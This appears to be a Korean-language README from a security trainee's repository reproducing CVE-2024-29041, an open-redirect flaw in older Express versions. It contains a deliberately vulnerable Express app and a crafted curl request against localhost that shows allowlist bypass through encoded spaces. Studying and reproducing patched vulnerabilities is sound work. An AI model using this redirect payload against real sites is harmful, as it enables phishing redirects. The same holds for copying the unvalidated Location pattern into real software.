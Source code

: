 # CVE-2024-29041 | Open Redirect

> 화이트햇 스쿨 3기 (19반) - [정민석 (@j93es)](https://github.com/j93es) / [Blog Link](https://j93.es)

<br/>

### 요약

아래 Express 버전에서 `req.location()` 혹은 내부적으로 `req.location()`을 이용하는 `req.redirect()`에서는 헤더의 `Location`에 값을 넣기 전, encodeurl()이라는 함수를 이용하여 인코딩합니다. 이러한 과정에서 리디렉션 화이트리스트를 우회할 수 있는 가능성이 발생합니다.

- \< 4.19.2
- \>= 5.0.0-alpha.1, \< 5.0.0-beta.3

<br/>

### PoC 구성

먼저 normal-app, vuln-app 2개의 express 서비스를 제작하였습니다. 두 서비스는 모두 query의 q에 있는 url을 파싱한 후, `Location` 헤더에 넣어 응답을 반환합니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

각 app의 package.json에 express 버전을 명시하였습니다. vuln-app은 4.19.0, normal-app은 패치가 완료된 4.19.2로 구동됩니다.

<br/>

### 환경 구성 및 실행

8002에는 취약한 버전의 Express가, 8003 포트에는 안전한 버전의 Express가 구동됩니다.

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

### 결과

**요청**

[패치 내역1](https://github.com/expressjs/express/commit/0b746953c4bd8e377123527db11f9cd866e39f94)과 [패치 내역2](https://github.com/expressjs/express/commit/0867302ddbde0e9463d0564fea5861feb708c2dd)의 테스트 코드를 참고하여 요청 URL을 선정하였습니다.

```sh
curl -i http://localhost:8002\?q\=http://google.com%20%20@apple.com
```

**안전한 Express 서버(8003 포트)**

![normal](./assets/normal.png)

**취약한 Express 서버(8002 포트)**

![normal](./assets/vuln.png)

<br/>

### 정리

`http://localhost:800X\?q\=http://google.com%20%20@apple.com` 요청 시 `Location` 헤더에, 첫 번째 URL인 `http://google.com  @apple.com`에서는 원본 url 중 `%20%20`이 디코딩된 채로 입력되었습니다. 두 번째 URL인 `http://google.com%20%20@apple.com`에서는 원본 url의 `%20%20`이 원본 그대로 반환되었습니다. 이처럼 취약한 버전의 Express에서는 엔코딩된 문자를 적절하지 않게 디코딩하기 때문에, 개발자가 설정한 화이트리스트를 우회하여 오픈 리다이렉트를 발생시킬 수 있습니다.
